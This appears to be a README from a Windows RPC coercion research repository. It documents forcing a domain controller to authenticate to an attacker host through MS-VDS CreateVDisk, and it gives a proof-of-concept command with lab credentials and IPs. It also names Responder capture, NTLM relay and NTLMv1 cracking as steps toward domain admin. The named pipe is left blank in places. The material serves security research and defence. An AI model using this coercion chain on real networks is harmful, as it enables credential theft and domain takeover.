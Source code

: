 # MS-VDS - Remote call to IVdsVdProvider::CreateVDisk (opnum 4)

## Summary

 - **Protocol**: [[MS-VDS]: Virtual Disk Service (VDS) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db)

 - **Protocol UUID**: 118610b7-8d94-4030-b5b8-500889788e4e

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`IVdsVdProvider::CreateVDisk`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/f4902b82-754f-4d5c-9c02-9bd91e149200)

 - **Function operation number**: `4`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-VDS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) protocol (with uuid `118610b7-8d94-4030-b5b8-500889788e4e` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-VDS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-VDS]: Virtual Disk Service (VDS) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) and allows to call RPC functions of this protocol. We will then call the remote [`IVdsVdProvider::CreateVDisk`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/f4902b82-754f-4d5c-9c02-9bd91e149200) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IVdsVdProvider::CreateVDisk('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CreateVDisk(
   [in] PVIRTUAL_STORAGE_TYPE VirtualDeviceType,
   [in, string] LPWSTR pPath,
   [in, string, unique] LPWSTR pStringSecurityDescriptor,
   [in] CREATE_VIRTUAL_DISK_FLAG Flags,
   [in] ULONG ProviderSpecificFlags,
   [in] ULONG Reserved,
   [in] PVDS_CREATE_VDISK_PARAMETERS pCreateDiskParameters,
   [in, out, unique] IVdsAsync** ppAsync
 );
```

## References

 - Documentation of protocol [MS-VDS]: Virtual Disk Service (VDS) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db

 - Documentation of function `IVdsVdProvider::CreateVDisk`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/f4902b82-754f-4d5c-9c02-9bd91e149200